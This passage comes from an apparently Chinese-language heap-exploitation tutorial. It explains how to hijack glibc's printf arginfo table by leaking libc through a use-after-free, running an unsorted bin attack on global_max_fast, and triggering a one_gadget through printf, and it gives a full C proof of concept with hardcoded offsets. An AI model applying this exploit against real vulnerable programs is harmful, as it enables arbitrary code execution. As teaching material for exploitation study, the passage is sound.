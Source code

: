 ```c
```

只要前三个条件均为 False，在第四个条件的 `__printf_arginfo_table[spec->info.spec]` 就会被执行，因为我们用的是 one_gadget，所以后面传入的参数可以不用管。

## 漏洞利用

利用思路：

- 通过 UAF 泄露 libc 基址。
- 在堆上伪造 `__printf_arginfo_table`，将 `heap['X']` 设置为 one_gadget 地址。
- 通过 unsorted bin attack 覆盖 `global_max_fast` 为一个较大的数值。
- 填充 `__printf_function_table`。
- 通过 `printf` 触发漏洞。

这个漏洞（也可以说是特性）不会受 libc 版本的限制，只要有 fastbin 并且能进行 unsorted bin attack 就能触发。

### poc

```c
#include <stdio.h>
#include <stdlib.h>

#define offset2size(ofs) ((ofs)*2 - 0x10)
#define MAIN_ARENA          0x3ebc40
#define GLOBAL_MAX_FAST     0x3ed940
#define PRINTF_FUNCTABLE    0x3f0738
#define PRINTF_ARGINFO      0x3ec870
#define ONE_GADGET          0x10a2fc

int main()
{
    unsigned long libc_base;
    char* a[10];
    setbuf(stdout, NULL);

    a[0] = malloc(0x500);
    a[1] = malloc(offset2size(PRINTF_FUNCTABLE - MAIN_ARENA));
    a[2] = malloc(offset2size(PRINTF_ARGINFO - MAIN_ARENA));
    a[3] = malloc(0x500);
    free(a[0]);
    libc_base = *(unsigned long*)a[0] - MAIN_ARENA - 0x60; /* UAF */
    printf("[\033[01;32m+\033[0m] libc -> 0x%lx\n", libc_base);

    *(unsigned long*)(a[2] + ('X'-2)*8) = libc_base + ONE_GADGET;

    /* Unsorted bin attack */
    *(unsigned long*)(a[0] + 8) = libc_base + GLOBAL_MAX_FAST - 0x10;
    a[0] = malloc(0x500);

    free(a[1]);
    free(a[2]);

    printf("%X", 0);
    return 0;
}
```
